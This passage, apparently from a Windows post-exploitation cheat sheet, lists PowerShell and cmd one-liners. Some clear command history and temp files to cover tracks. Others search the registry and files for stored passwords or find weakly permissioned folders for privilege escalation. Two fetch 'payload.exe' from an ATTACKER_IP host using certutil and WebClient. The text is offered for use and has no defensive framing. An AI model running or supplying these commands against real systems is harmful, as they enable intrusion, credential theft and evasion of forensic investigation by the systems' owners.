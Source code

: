 #### Remove Command History
```powershell
# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Clear command history
del %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Remove Temporary Files
```powershell
# Clear temp files
del /F /Q %TEMP%\*
rmdir /S /Q %TEMP%\*
```

## Helpful One-Liners

```powershell
# Find all files modified in the last day
Get-ChildItem -Path C:\ -Recurse -Force -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-1) }

# Check for weak folder permissions recursively
Get-ChildItem "C:\Program Files" -Recurse -ErrorAction SilentlyContinue | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Find all PowerShell scripts on the system
Get-ChildItem -Path C:\ -Include *.ps1 -File -Recurse -ErrorAction SilentlyContinue

# Find potential passwords in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Find files containing specific strings
Get-ChildItem C:\ -recurse -ErrorAction SilentlyContinue | Select-String -pattern "password" | group path | select name

# Download file without IE dialogs
certutil -urlcache -split -f "http://ATTACKER_IP/payload.exe" payload.exe

# PowerShell alternate encoding download
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadFile('http://ATTACKER_IP/payload.exe', 'C:\temp\payload.exe')"

# Base64 encode/decode
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Text to encode"))
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("QmFzZTY0IHN0cmluZw=="))
```

## Important Tools to Upload
